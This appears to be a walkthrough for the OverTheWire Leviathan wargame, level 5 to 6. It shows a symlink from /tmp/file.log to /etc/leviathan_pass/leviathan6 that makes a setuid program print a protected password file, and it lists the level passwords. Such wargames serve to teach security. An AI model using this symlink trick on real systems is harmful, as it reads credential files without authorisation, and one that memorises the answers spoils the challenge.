




# Level 5 → Level 6

## Solution
```
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```
```
EKKlTF1Xqs
```
```
ls -al
```
```
./leviathan5
```



```
echo wow > /tmp/file.log
```
```
./leviathan5
```



```
cat /tmp/file.log
```



So the software accepts an existing file for printing, and then deletes it. Let's see how:

```
echo wow > /tmp/file.log ; ltrace ./leviathan5
```



In other words - the `cat` command is not used. So, what can we do?.. Let's remember that Linux has a so-called [symbolic link](https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command/) (The hint is the use of the `unlink` function). We can make the file `/tmp/file.log` be a link to the file `/etc/leviathan_pass/leviathan6` and thus print it (with the permissions of the software i.e. **leviathan6 permission**)

```
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
```
./leviathan5
```

## Password for the next level:
```
YZ55XPVk2l
```
